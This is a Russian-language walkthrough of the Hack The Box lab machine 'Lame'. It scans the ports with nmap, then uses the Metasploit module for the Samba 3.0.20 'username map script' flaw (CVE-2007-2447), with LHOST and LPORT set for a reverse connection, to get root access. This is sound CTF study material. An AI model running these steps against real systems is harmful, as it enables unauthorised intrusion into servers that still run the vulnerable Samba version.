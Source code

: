 # Lame

###

![](<../.gitbook/assets/1 (1).png>)

### Содержание:

Я считаю, что это самая простая машина на HTB, так как для ее прохождения потребуется только один эксплоит. Для начала мы просканируем порты с дефолтным nmap-скриптом. Затем, запустим метасплоит и найдем эксплоит для Samba версии 3.0.20(CVE-2007-2447). После того, как эксплоит отработает мы получим сразу рут-доступ.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV -Pn 10.10.10.3 -oN nmap
```

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.43
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-01-30T12:13:06-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h35m41s, deviation: 3h32m09s, median: 5m40s
```

Используем флаг -Pn для принудительного сканирования портов, так как без него nmap считает, что хост "лежит".

### Ищем эксплоит в metasploit:

Теперь в метасплоите мы можем посмотреть эксплоиты для самбы версии **3.0.20**:

```
$ msfconsole
msf6 > search 3.0.20
```

Используем данный эксплоит:

```
exploit/multi/samba/usermap_script 2007-05-14 excellent    No    Samba "username map script" Command Execution
```

### Запускаем эксплоит и получаем рута:

```
msf6 > use exploit/multi/samba/usermap_script
```

Настраиваем так:

![](../.gitbook/assets/2.png)

**RHOSTS** - удаленная машина, которую будем атаковать

**RPORT** - не меняем, он правильно выставлен

**LHOST** - свой айпи, можно узнать через:

```
$ ip r
```

**LPORT** - свой порт, который еще не занят, например, 9999.

```
msf6 exploit(multi/samba/usermap_script) > exploit
```

![](../.gitbook/assets/3.png)
